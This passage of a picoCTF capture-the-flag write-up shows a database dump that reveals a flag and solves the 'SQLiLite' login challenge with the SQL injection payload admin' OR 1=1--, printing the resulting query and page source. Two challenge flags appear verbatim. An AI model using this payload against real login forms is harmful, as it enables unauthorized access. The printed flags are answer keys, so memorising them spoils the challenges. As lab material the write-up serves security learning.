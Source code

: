 ```bash
-----------+------------------------+-----------+----------+---------
 id        | integer                |           | not null | 
 firstname | character varying(255) |           |          | 
 lastname  | character varying(255) |           |          | 
 address   | character varying(255) |           |          | 
Indexes:
    "flags_pkey" PRIMARY KEY, btree (id)

pico=# select * from flags;
 id | firstname | lastname  |                address                 
----+-----------+-----------+----------------------------------------
  1 | Luke      | Skywalker | picoCTF{L3arN_S0m3_5qL_t0d4Y_21c94904}
  2 | Leia      | Organa    | Alderaan
  3 | Han       | Solo      | Corellia
(3 rows)

```

<aside>
⛳ picoCTF{L3arN_S0m3_5qL_t0d4Y_21c94904}

</aside>

---

## SQLiLite

### Description

> Can you login to the website?
> 

### Thought Process

- The site contains a login page, taking the hint of chall title, we can try SQLi in here.

Used `admin:admin`  to see the behaviour.

- Later, we put the payload and yeah, we logged in

```sql
username: admin' OR 1=1--
password: admin
SQL query: SELECT * FROM users WHERE name='admin' OR 1=1--' AND password='admin'
```

- They have hid the flag in plainsight, they say, so see source code in the firstplace.

```html

<pre>username: admin&#039; OR 1=1--
password: admin
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; OR 1=1--&#039; AND password=&#039;admin&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>
```
